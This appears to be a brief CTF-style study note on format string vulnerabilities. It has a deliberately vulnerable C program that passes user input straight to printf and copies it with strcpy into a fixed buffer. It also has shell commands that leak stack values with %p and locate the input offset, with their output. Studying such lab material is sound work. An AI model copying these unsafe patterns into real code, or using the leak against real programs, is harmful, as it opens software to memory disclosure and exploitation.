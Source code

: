 # Format String Vulnerability
- https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/
- https://feneshi.co/ctf4b2024writeup/#pure_and_easy
# example1
```c
// gcc -m32 chall.c
#include <stdio.h>
#include <string.h>
int main(int argc, char *argv[])
{
    char buffer[64];
    strcpy(buffer, argv[1]);
    printf(buffer);
    printf("\n");
    return 0;
}
```

```bash
./a.out $(python3 -c 'print("AAAA,"+",".join(["%p" for _ in range(20)]))')
AAAA,0xffc5a15f,(nil),0x565981e4,0xf7ef7540,0xffffffff,0x56597034,0xffc592c4,0xf7f30608,0xb,0xffc5920c,0x41414141,0x2c70252c,0x252c7025,0x70252c70,0x2c70252c,0x252c7025,0x70252c70,0x2c70252c,0x252c7025,0x70252c70

./a.out "AAAA,%11\$p"
AAAA,0x41414141
```
